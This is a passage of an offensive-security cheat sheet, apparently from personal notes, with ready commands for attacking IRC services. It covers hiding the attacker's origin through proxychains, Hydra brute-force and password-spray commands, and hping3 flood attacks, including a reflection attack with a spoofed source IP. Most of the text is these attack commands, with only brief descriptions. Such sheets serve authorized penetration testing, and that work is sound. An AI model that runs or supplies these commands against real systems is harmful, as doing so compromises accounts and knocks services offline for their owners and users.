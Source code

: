 ## Defense Evasion

### Cloaking Using Proxies
- **Tool:** [[Proxychains]]
    ```bash
    proxychains irssi -c irc.example.com -p 6667
    ```
- **Description:** Connects to IRC through multiple proxies to hide the attacker’s origin.

# Exploits and Attacks

## Password Attacks

### Password Brute Force
- **Tool:** [[Hydra Cheat Sheet]]
    ```bash
    hydra ircs://<target_ip> -s 6697 -l <username> -P <password_list>
    ```
- **Description:** Test a single username against multiple passwords.

### Password Spray
- **Tool:** [[Hydra Cheat Sheet]]
    ```bash
    hydra <protocol>://<target_ip> -s 6697 -l <username_list> -P <password>
    ```
- **Description:** Test a multiple usernames against a single password.

## Denial of Service

### TCP/UPD Flood Attack
- **Tool:** [[HPing3 Cheat Sheet]]
    ```bash
    hping3 <target_ip> -p 6697 --flood --rand-source -c 1000
    ```
- **Description:** Flooding the port with connection attempts, potentially leading to a denial of service.

### TCP/UDP Reflection Attack
- **Tool:** [[HPing3 Cheat Sheet]]
    ```bash
    hping3 <target_ip_1> -p 6697 --spoof <target_ip_2> --flood --rand-source -c 1000
    ```
- **Description:** Execute a reflection attack by sending requests with a spoofed source IP, causing the target to flood the victim with responses.

### SSL/TLS Handshake Flood
- **Tool:** [[HPing3 Cheat Sheet]]]
     ```bash
     hping3 <target_ip> -p 6697 -S --flood --rand-source -c 1000
     ```
- **Description:** Floods the service with SSL/TLS handshake requests, overwhelming the server.

